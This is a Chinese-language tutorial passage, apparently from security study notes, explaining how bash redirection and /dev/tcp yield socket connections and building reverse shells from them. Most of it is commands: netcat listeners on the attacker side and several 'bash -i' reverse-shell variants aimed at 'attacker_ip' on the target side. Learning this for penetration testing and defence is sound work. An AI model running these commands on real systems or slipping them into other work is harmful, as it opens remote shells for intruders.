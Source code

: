 ```/dev/tcp/ip/port```，这个文件不是存在的，但是当你在监听这个端口的时候，对这个文件进行读写，就可以实现两个主机之间的socket通信
	1

```2>&1``` 将错误输出和标准输出输出到同一个文件(**Linux一切皆文件**):

靶机：

	echo1 1> /dev/tcp/attacker_ip/2333 2>&1

攻击机：

	[root@attacker ~]# nc -lvp 2333 
	Connection from victim_ip:5479
	-bash: echo1: command not found


通过 ```<```将标准输出改成标准输入：

靶机：

	cat < /dev/tcp/attacker_ip/2333
	qwer
	asdf

攻击机：

	nc -lvp 2333 
	Connection from victim_ip:23610
	qwer
	asdf

在攻击机传输的内容会被重定向到靶机。

输入重定向原理：

![](images/10.jpg)


掌握了上面的原理，可以随意构建反弹shell命令：

攻击：

	nc -lvp 2333

靶机：
	
	bash -i 0< /dev/tcp/ip/2333 1>&0 2>&0

或：

	bash -i 0< /dev/tcp/ip/2333 1>&0 2>&1

	bash -i < /dev/tcp/ip/2333 >&0 2>&1

	bash -i 1> /dev/tcp/ip/2333 0>&1 2>&1
	
	bash -i 1> /dev/tcp/ip/2333 0>&1 2>&0

其他变形：

	bash -i 1>& /dev/tcp/ip/port 0>&1

	bash -i 1>& /dev/tcp/ip/port 0>&2

```